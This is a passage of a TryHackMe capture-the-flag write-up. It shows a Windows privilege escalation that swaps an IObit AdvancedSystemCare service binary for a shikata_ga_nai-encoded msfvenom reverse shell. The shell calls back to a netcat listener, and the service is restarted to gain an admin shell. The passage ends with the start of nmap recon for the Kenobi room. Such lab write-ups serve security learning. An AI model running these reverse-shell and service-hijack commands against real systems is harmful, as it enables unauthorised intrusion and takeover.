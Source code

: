 This shows us a service called `AdvancedSystemCareService9` the our user can restart and also has write access to the directory, so we can override the existing executable with our own.

#### `msfvenom` Reverse shell

Creating the reverse shell exe
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.7.128 LPORT=4444 -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Create a listener
```bash
$> nc -lvnp 4444
```

Upload and execute as a service
```bash
meterpreter> upload /opt/msfvenom_reverse_shell.exe
meterpreter> powershell_shell

PS> net stop AdvancedSystemCareService9
PS> cp .\msfvenom_reverse_shell.exe 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'

PS> net start AdvancedSystemCareService9
```

And we have an admin shell via our netcat listener

## Kenobi

[TryHackMe ~ Kenobi](https://tryhackme.com/room/kenobi)

Includes:
- Recon
  - nmap
  - samba enumeration
  - nfs scans
- Exploit
  - netcat
  - searchsploit
- Privilege esculation
  - SUID binaries
  - PATH poisoning

### Recon

#### Nmap 
Port and service scan:
```bash
nmap -sV -sC <ip> -oX nmap-service-scan.xml | tee nmap-sevice-scan.txt 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:42 BST

Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
```